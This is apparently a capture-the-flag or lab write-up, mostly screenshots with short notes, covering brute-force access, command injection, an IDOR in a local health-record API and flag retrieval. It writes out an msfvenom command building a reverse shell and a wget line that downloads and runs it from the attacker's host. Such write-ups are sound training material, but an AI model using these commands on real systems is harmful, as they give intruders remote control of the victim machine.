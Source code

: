 Initial access was gotten  by bruteforce
payload
![image](https://github.com/user-attachments/assets/65c12cb1-31b4-4608-b10e-c5805848bf40)


Result
![image](https://github.com/user-attachments/assets/544dfc05-48a7-4598-855b-f5a4e01f6ee2)



![image](https://github.com/user-attachments/assets/a6bc17aa-820c-4b7b-bab8-c0782d394d6d)![image](https://github.com/user-attachments/assets/c7470cde-8c47-48a6-90cb-367623fb33a0)

Exploiting the Command injection VUlnerailites


This was done by using the command ls
![image](https://github.com/user-attachments/assets/b19d6cd8-18c6-4d95-960f-0ae87670d4b4)



Getting a reverse shell
 
Then which sh
![image](https://github.com/user-attachments/assets/0d19245f-df6f-490f-befc-daab2194951f)

nc 
![image](https://github.com/user-attachments/assets/7c3f2194-7a11-4663-b6ee-9161940d0ea5)


all the above binary were present but didnt work
sh throwing erro

![image](https://github.com/user-attachments/assets/27a4698a-6592-4940-a468-38889372839f)


nc throwing error

![image](https://github.com/user-attachments/assets/5949dd6a-7752-4e21-8180-b8685d9135ed)

This was finally done by using a static linux binary created using msfconsole and wget 

`msfvenom -p linux/x64/shell_reverse_tcp  LHOST=172.22.0.1  LPORT=2294 -f elf -o shell.elf`

this was what was used eventually
wget http://172.22.0.1/shell.elf -O /tmp/shell; chmod +x /tmp/shell; /tmp/shell

wget showig blank after reverse shell has worked 
![image](https://github.com/user-attachments/assets/857beee2-5ab7-4ccc-a306-ba9b5aeb814e)

shell gained 
![image](https://github.com/user-attachments/assets/931e07d6-0e0a-41eb-9029-d5f7333ecffb)
  


IDOR
This works by just changing the value after "record" in http://127.0.0.1:3001/api/health/record/2
![image](https://github.com/user-attachments/assets/57a8849d-33de-465d-909e-3c4cd4b224b5)





FLAGS


navigating to /app/ministires, each ministry has its own directory there, and the command cat service.js | grep FLAG
should bring out the flags
![image](https://github.com/user-attachments/assets/7f2a9374-2d78-450e-b30f-a763aa0c1f19)



or  by changgint the ministry

![image](https://github.com/user-attachments/assets/11de61f1-cb93-4fdc-aaae-10d9b8182bcf)

